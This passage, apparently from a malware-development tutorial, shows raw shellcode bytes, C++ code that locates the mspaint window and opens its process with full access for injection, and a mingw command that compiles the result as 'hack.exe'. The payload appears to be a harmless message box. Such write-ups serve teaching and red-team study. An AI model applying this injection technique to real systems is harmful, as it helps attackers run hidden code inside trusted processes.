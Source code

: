 ```cpp
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

As you can, see, the main logic is here:

```cpp
//...
// find a window for mspaint.exe
HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;
}
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
//...
```

### Demo

Let's go to compile:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![injection](./images/43/2022-03-15_12-10.png){width="80%"}    

and run:   
